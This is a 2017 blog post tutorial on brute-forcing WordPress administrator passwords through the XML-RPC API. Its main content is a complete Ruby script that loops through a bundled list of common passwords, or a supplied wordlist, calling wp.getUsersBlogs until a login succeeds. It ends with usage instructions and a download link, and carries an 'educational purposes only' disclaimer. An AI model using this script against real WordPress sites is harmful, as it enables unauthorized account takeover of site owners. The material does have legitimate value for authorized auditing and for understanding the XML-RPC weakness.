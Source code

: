 ```yaml
---
layout: post
title: "Wordpress brute force password attack using XML-RPC API"
date: 2017-05-14 17:12
comments: true
categories: [wordpress hacking, web security]
description: wordpress attack, wordpres password brute force, wordpress xmlrpc api, wordpress hacking
keywords: wordpress hacking, wordpress brute force, attacking wordpress, wordpress xmlrpc api, web hacking, wordpress information gathering, wordpress security, wordpress auditing
sharing: true
---
```

<img src="{{ root_url }}/images/wordpress-hacking.png"/> 

#### All code and information for educational purposes only

Starting a series of posts about web security, which also a passion of mine besides development.  
The first published post on this topic about getting admin password for wordpress using [XML-RPC API](https://codex.wordpress.org/XML-RPC_WordPress_API/Users) and brute force attack. Second choice may be a direct brute force attack via post form on 'wp-login.php' which may be more complex during
'Account Lockout Policy' and other things, which I will cover in other post.

<!-- more -->

#### What is XML-RPC?
The XML-RPC is an API that enables developers create WordPress ‘apps’ (like clients, plugins and themes), that allow you to make remote HTTP requests to your WordPress site...[(link to full article)](https://blogvault.net/how-xml-rpc-affects-wordpress-security/)  
The simplest way to check if XML-RPC API enabled(default) in your wordpress is by open your browser and entering something like http://127.0.0.1:8080/xmlrpc.php, if response you see is 'XML-RPC server accepts POST requests only.', XML-RPC API enabled. 

#### Other great tools for wordpress password brute force ####
[WPScan](https://wpscan.org/) - great tool for wordpress information gathering and password brute force  
[Nmap with http-wordpress-brute script](https://nmap.org/nsedoc/scripts/http-wordpress-brute.html) - performs brute force password auditing against Wordpress CMS/blog installations.

Let's start to build simple script which will find admin password for wordpress using dictionary, I am using simple [sucuri dictionary](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt) as default for out brute force attack.

Our script will use [xml-rpc client for ruby](https://ruby-doc.org/stdlib-2.3.1/libdoc/xmlrpc/rdoc/XMLRPC/Client.html)


#### wp_find_password.rb script
``` ruby 
#!/usr/bin/env ruby
# encoding: UTF-8

require 'optparse'
require 'xmlrpc/client'
require 'uri'


def wp_find_password(options)
  # https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt
  passwords = %w(admin 123456 password 12345678 typhoon 666666 111111 1234567 qwerty
                 siteadmin qwerty siteadmin administrator root 123123 123321
                 1234567890 letmein123 test123 demo123 pass123 123qwe qwe123 654321 loveyou adminadmin123)

  uri = URI(options[:url])
  server = XMLRPC::Client.new(uri.host, uri.path, uri.port)
  server.http_header_extra = {'accept-encoding' => 'identity'}
  
  if options[:wordlist] != 'default'
    passwords = File.readlines(options[:wordlist])
    passwords.collect! {|s| s.chomp}
  end
  
  passwords.each do |password|
    begin
      response = server.call("wp.getUsersBlogs", options[:username], password)
      if response
        puts "--- Success: PASSWORD: #{password} for username: #{options[:username]} ---\n"
        break;
      end
    rescue XMLRPC::FaultException => e
      puts "Wrong password: #{password} for username: #{options[:username]}, response code #{e.faultCode}\n"
    end
  end
end

options = {:url => 'http://127.0.0.1:8080/wordpress/xmlrpc.php', :username => 'admin', :wordlist => 'default'}

OptionParser.new do |opts|
  opts.banner = "Usage: wp_find_password.rb [options]"
  opts.on('--username username', 'Username, default: admin') do |username|
    options[:username] = username
  end

  opts.on('--url url', 'Url, default: http://127.0.0.1/wordpress/xmlrpc.php') do |url|
    options[:url] = url
  end

  opts.on('--wordlist wordlist', 'Word List, default: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt') do |wordlist|
    options[:wordlist] = wordlist
  end

  opts.on('-h', '--help', 'Displays Help') do
    puts opts
    exit
  end
end.parse!

wp_find_password(options)
``` 

You may download this script [here](https://github.com/warolv/wordpress-scripts)

Usage example: wp_find_password.rb --url 127.0.0.1:8080/wordpress/xmlrpc.php  --wordlist /Users/your-user/Downloads/wordlist.txt --username admin

Options:
Usage: wp_find_password.rb [options]
        --username username          Username, default: admin
        --url url                    Url, default: http://127.0.0.1/wordpress/xmlrpc.php
        --wordlist wordlist          Dictionary
    -h, --help                       Displays Help